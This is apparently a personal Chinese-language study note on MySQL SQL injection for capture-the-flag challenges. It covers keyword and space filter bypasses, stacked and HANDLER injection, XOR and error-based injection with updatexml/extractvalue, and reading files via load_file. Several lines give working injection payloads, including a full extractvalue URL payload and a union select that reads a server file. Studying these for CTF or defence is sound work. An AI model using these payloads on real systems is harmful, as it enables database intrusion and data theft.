 [TOC]



# Mysql基础

## 名词解析

**information_schema库**:信息数据库,包括其他数据库的信息,包括数据库名,数据库表,表字段数据类型等

**SCHEMATA**表:提供当前mysql实例所有数据库信息,show databases结果就取自于此]

**tables表**:表

**columns表**:列

**mysql库**:mysql核心数据库,主要储存用户,权限设置,关键字等



## 注释

①-- this is zhushi

如上面的格式,俩横杠一空格后面的是注释(一定注意加空格)

②#this is zhushi

单井号后面也是注释

***推荐用第一种,有的时候#会被屏蔽***



## 基础指令

use 数据库名;  -- 改库

show tables; -- 打印库里所有表











## 常用系统自带函数

now(); -- 当前时间

database(); -- 当前使用数据库

version(); -- 当前版本

user(); -- 当前用户





## 特殊指令

select @@datadir; -- 查看数据路径

select @@basedir; -- 查看数据库路径

select @@version_compile_os; -- 查看mysql安装的系统(linux,win)



# 绕过字符检测

有的时候会进行url的字符检测,比如屏蔽掉or,by,not这种

## 双写绕过

or→oorr

by→bbyy

union→ununionion

select→seselectlect

where→whwhereere

from→frorom

虽然不知道原理,反正可以绕过



## 空格绕过:

1.用~,tap,%20,+,/**/代替

2.用()包裹

例:/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))%23

## 注释绕过:

1.%23

2.--`



# 输入数字有回显,输入字符无回显

参考buuctf-suctf 2019 easysql1

这道题能做到数字回显字符不回显,可以猜测有一个'或'结构,即||

可以尝试传*,1

例如select 输入||a from flag

可以用*,1来使1||a返回1,来查询前面的\*



# 在很多字符被屏蔽的情况下可以考虑堆叠注入

闭合原语句;sql注入语句 -- a

例如;show databases -- a

​        ;show tables -- a

​        ;show columns from 表名 -- a

# 在知道表名的情况下可以用handler绕过

;handler 表名 open as p;handler p read first – a



# 异或注入

例题:<font color='orange'>buuctf-hackworld</font>

相关说明:https://blog.csdn.net/SoporAeternus12/article/details/124001820

在sql语句里,在string和数字型比较时,前面数字开头的字符串,例如"123abc"就会被转为123

而前面不是数字开头的字符串,例如"abc123"就会被转换为<font color='red'>0</font>



异步注入说简单一点就是在构造where后面的判断条件时使用^（异或符号）来达到[sql注入攻击](https://so.csdn.net/so/search?q=sql注入攻击&spm=1001.2101.3001.7020)的目的，通常异步注入与一些自动化脚本比如bp中的intrude模块或者自己写一个python脚本来配合使用



# get型利用updatexml和extractvalue函数报错注入

原理:https://zhuanlan.zhihu.com/p/398726175

使用方法举例:updatexml(1,concat(0x7e,datebase()),1)

注:上面的0x7e对应的是~字符,所以看回显时若得到~ctfbase,则~后面的ctfbase就是我们要的内容

extractvalue同理



# load_file()函数读文件

**buuctf:fakebook**有一种方法就是这样

MySQL的load_file()函数可以进行文件读取，**但是load_file()函数读取文件首先需要数据库配置FILE权限**（数据库**root用户**一般都有），**其次需要执行load_file()函数的MySQL用户/用户组对于目标文件具有可读权限（很多配置文件都是所有组/用户可读）**，主流Linux系统还需要Apparmor配置目录白名单（默认白名单限制在MySQL相关的目录下），可谓“一波三折”。即使这么严格的利用条件，我们还是经常可以在CTF线上比赛中遇到相关的文件读取题。



所以关键在于有足够的权限**(可以先用user()函数查看当前使用数据库的用户的身份是不是root)**

如果是,可以直接尝试load_file(文件路径)



例:union select 1,load_file("/var/www/html/flag.php"),3,4#









​                          

